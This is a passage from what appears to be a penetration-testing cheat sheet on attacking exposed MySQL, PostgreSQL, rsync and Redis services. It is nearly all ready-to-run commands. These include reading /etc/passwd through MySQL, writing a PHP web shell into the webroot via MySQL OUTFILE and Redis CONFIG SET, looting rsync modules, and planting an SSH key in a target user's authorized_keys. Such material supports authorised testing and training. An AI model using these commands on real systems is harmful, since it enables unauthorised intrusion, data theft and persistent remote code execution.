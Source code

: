 ### 10) MySQL (3306) — weak creds, file read/write
```bash
# NSE
nmap -p3306 --script mysql-info,mysql-databases,mysql-users,mysql-variables $IP

# Login (try empty or common)
mysql -h $IP -u root
# or
mysql -h $IP -u root -p

# Inside MySQL:
SHOW DATABASES;
SELECT LOAD_FILE('/etc/passwd');
SHOW VARIABLES LIKE 'secure_file_priv';
# If secure_file_priv allows or is NULL (unrestricted) and webroot is known:
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

### 11) PostgreSQL (5432) — weak creds, enumeration
```bash
# Try default user
psql -h $IP -U postgres
# Enumerate
\l
\du
\dt
```
Note: OS command execution typically needs superuser; you’ll mostly loot data or creds.

### 12) Rsync (873) — anonymous modules and write
```bash
# List modules
rsync -av --list-only rsync://$IP/

# Enumerate a module
rsync -av --list-only rsync://$IP/public

# Pull data
rsync -av rsync://$IP/public ./loot/rsync_public

# If writable, try pushing authorized_keys into a user home module
rsync -av ~/.ssh/id_rsa.pub rsync://$IP/home/targetuser/.ssh/authorized_keys
```

### 13) Redis (6379) — unauthenticated access, write-to-webroot/authorized_keys
```bash
# Test auth
redis-cli -h $IP ping
redis-cli -h $IP CONFIG GET requirepass

# If no auth and webroot path is known/writeable by redis:
# Create a simple webshell payload file locally
echo "<?php system(\$_GET['cmd']); ?>" > shell.php

# Set Redis DB dir and filename to webroot
redis-cli -h $IP CONFIG SET dir /var/www/html
redis-cli -h $IP CONFIG SET dbfilename shell.php

# Store payload as a key then save to disk
redis-cli -h $IP -x SET payload < shell.php
redis-cli -h $IP SAVE
# Access: http://$IP/shell.php?cmd=id
```